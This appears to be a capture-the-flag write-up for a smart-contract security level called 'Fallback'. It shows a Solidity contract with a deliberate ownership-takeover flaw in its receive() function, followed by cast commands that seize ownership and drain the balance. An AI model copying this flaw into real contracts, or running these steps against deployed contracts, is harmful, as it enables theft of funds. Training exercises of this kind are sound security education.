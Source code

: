 # 1. Fallback 

**Difficulty : 1/10**

You will beat this level if:
1. you claim ownership of the contract
2. you reduce its balance to 0

```solidity  
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import '@openzeppelin/contracts/math/SafeMath.sol';

contract Fallback {

  using SafeMath for uint256;
  mapping(address => uint) public contributions;
  address payable public owner;

  constructor() public {
    owner = msg.sender;
    contributions[msg.sender] = 1000 * (1 ether);
  }

  modifier onlyOwner {
        require(
            msg.sender == owner,
            "caller is not the owner"
        );
        _;
    }

  function contribute() public payable {
    require(msg.value < 0.001 ether);
    contributions[msg.sender] += msg.value;
    if(contributions[msg.sender] > contributions[owner]) {
      owner = msg.sender;
    }
  }

  function getContribution() public view returns (uint) {
    return contributions[msg.sender];
  }

  function withdraw() public onlyOwner {
    owner.transfer(address(this).balance);
  }

  receive() external payable {
    require(msg.value > 0 && contributions[msg.sender] > 0);
    owner = msg.sender;
  }
}
```

## Solution

We need to trigger the callback function after having contributed some ETH to become the owner.

Contributing some eth using the "contribute()" function
```
cast send $LEVEL_ADDRESS "contribute()" --value 0.0001ether --private-key=$PRIVATE_KEY
```

Triggering the fallback function **receive()** by sending a eth transaction with an empty data field
```
cast send $LEVEL_ADDRESS --value 0.0001ether --private-key $PRIVATE_KEY
```

Draining the contract
```
cast send $LEVEL_ADDRESS "withdraw()" --private-key $PRIVATE_KEY
```
## Further Reading
